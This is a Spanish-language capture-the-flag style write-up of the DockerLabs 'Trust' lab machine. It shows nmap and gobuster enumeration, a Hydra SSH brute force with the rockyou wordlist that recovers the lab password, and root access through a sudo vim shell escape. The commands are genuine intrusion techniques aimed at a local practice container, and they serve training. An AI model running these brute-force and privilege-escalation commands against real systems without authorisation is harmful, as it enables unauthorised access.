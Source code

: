 ```yaml
---
layout: single
title: Trust - DockerLabs
excerpt: "Maquina Linux vulnerada a travez de un ataque de fuerza bruta"
date: 2024-05-17
classes: wide
header:
  teaser: /assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Fuerza Buta
---
```


<p align="center">
  <img width="460" height="300" src="/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta.

# Herramientas

    nmap
    hydra

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

Finalizado el escaneo podemos ver que se encuentran 2 puertos abiertos 22 que corresponde al servicio de SSH y el puerto 80 al servicio web Apache

```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 12:22 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.77 seconds
```

Procedo a investigar el puerto 80 en el navegador ingreso la siguiente URL `http://172.17.0.2` en el cual está la pagina de por default del servicio Apache

![[trust000.png]](/assets/images/writetup-dockerlabs-trust/trust000.png)

La pagina no tiene nada mas interesante, por lo tanto procedo a realizar fuzzing web a ver si me encuentro con algo mas

```bash
gobuster dir -n 404 -t 64 -u http://172.17.0.2/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x txt,py,sh,php
```

| Parametro | Descripcion                     |
| --------- | ------------------------------- |
| -n        | No imprimir códigos de estado   |
| -t        | cantidad de hilos en paralelo   |
| -u        | URL                             |
| -w        | Ruta al diccionario             |
| -x        | Extensiones de archivo a buscar |

Finalizado el fuzzing se observa que hay un directorio secret.php

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,py,sh,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1038215 / 1038220 (100.00%)
===============================================================
Finished
===============================================================
```

procedo a ver que hay en ese directorio ingresando la siguiente url en el navegador `http://172.17.0.2/secret.php`

![]/assets/images/writetup/dockerlabs/trust/002trust.png

Me encuentro con el siguiente mensaje "Hola Mario, Esta web no se puede hackear." no me encuentro con nada mas en esta web, por lo tanto tengo un posible usuario llamado Mario, el cual voy a usar para hacer fuerza bruta al servicio SSH con la herramienta Hydra

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                               |
| --------- | ----------------------------------------- |
| -l        | usario                                    |
| -P        | carga varias contraseñas desde un ARCHIVO |
| -t        | cantidad de hilos en paralelo             |
| ssh       | protocolo a atacar                        |

El ataque de fuerza bruta confirma el usuario mario y muestra la contraseña chocolate

```css
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 12:48:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344400 login tries (l:1/p:14344400), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 12:48:54
```

con estos datos procedo a realizar la intrusión en el equipo mediante el servicio SSH

# 2- Intrusión

Conexión a la maquina victima por el servicio SSH

```bash
ssh mario@172.17.0.2
```

al solicitar la contraseña ingreso `chocolate` y me permite el acceso a la maquina victima con el usuario mario intrusión realizada

![]/assets/images/writetup/dockerlabs/trust/003trust.png

# 3- Escalada de privilegios

Llego de momento de escalar privilegios y ser el usuario root, para ello voy a ejeutar el siguiente comando `sudo -l` para listar los permisos de sudo que tiene el usuario actual en el sistema.

![]/assets/images/writetup/dockerlabs/trust/004trust.png

Se observa que se puede ejecutar el binario `/usr/bin/vim` como el usuario **root**. Por lo tanto se procede a investigar en la pagina [GTFOBins](https://gtfobins.github.io/) como explotar este binario

ejecutando el siguiente comando vamos a tener acceso a root

```bash
sudo vim -c ':!/bin/sh'
```

Listo! se logró escalar privilegios a al usuario root

![]/assets/images/writetup/dockerlabs/trust/005trust.png
